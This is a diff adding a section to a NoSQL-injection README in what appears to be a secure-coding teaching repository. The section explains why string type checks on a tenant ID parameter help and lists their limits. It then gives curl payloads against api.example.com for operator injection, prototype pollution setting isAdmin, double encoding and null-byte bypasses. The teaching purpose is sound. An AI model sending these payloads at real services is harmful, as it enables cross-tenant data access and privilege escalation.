

Before and after one commit to ash982/VulnCode, a Markdown page: NoSQLi/README.md, the part around the change printed below. Shown: that part at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/NoSQLi/README.md
+++ b/NoSQLi/README.md
@@ -173,3 +173,73 @@ app.get('/user', async (req, res) => {
   }
 });
 ```
+
+**Why String type check helps: for example 'tenantid' is used in nosql query**
+.Prevents object injection: Blocks attacks like ?tenantid[$ne]=null or ?tenantid[$regex]=.*
+.Ensures predictable behavior: MongoDB queries expect string values for tenant IDs
+.Simple and effective: Easy to implement and understand
+
+**Potential Limitations:**
+.URL parsing behavior: Some Express.js query parsers might already convert objects to strings
+.Nested objects: Depending on parser settings, complex objects might still get through
+.No content validation: A string type check doesn't validate the actual content format
+
+**Here are examples that could potentially bypass a simple string type check, depending on the Express.js configuration and query parsing settings:**
+**1. Query Parser Configuration Issues**
+If Express uses extended: true for URL encoding or certain query parsers:
+```bash
+# These might still parse as objects depending on configuration
+curl "http://api.example.com/endpoint?tenantid[%24ne]=null"
+curl "http://api.example.com/endpoint?tenantid[%24regex]=.*"
+```
+
+**2. Array-based Bypass**
+Some parsers might convert arrays to strings in unexpected ways:
+```bash
+# Could become "value1,value2" or just "value1"
+curl "http://api.example.com/endpoint?tenantid[]=normalvalue&tenantid[]=%24ne"
+curl "http://api.example.com/endpoint?tenantid[0]=test&tenantid[1]=%24regex"
+```
+
+**3. Prototype Pollution**
+```bash
+# Attempting to pollute Object.prototype
+curl "http://api.example.com/endpoint?tenantid[__proto__][isAdmin]=true&tenantid=normalvalue"
+```
+
+**4. Double Encoding**
+```bash
+# URL double-encoding to bypass initial parsing
+curl "http://api.example.com/endpoint?tenantid=%257B%2524ne%253Anull%257D"
+# Decodes to: tenantid=%7B%24ne%3Anull%7D
+# Then to: tenantid={$ne:null}
+```
+
+**5. Content-Type Manipulation**
+```bash
+# Sending JSON in body but parsed as query
+curl -X POST \
+  -H "Content-Type: application/json" \
+  -d '{"tenantid": {"$ne": null}}' \
+  "http://api.example.com/endpoint"
+```
+
+**6. Unicode/Character Encoding**
+```bash
+# Unicode characters that might be normalized later
+curl "http://api.example.com/endpoint?tenantid=test%C2%A0%24ne"
+# Null byte injection
+curl "http://api.example.com/endpoint?tenantid=validid%00%24ne%3Anull"
+```
+
+**7. Express Parser Edge Cases**
+Depending on Express configuration:
+```javascript
+// If using qs library with certain options
+app.use(express.urlencoded({
+  extended: true,
+  parameterLimit: 1000,
+  // These settings might affect parsing
+}));
+```
+
````
Also changed, not shown: other parts of NoSQLi/README.md (+61 -0 lines).
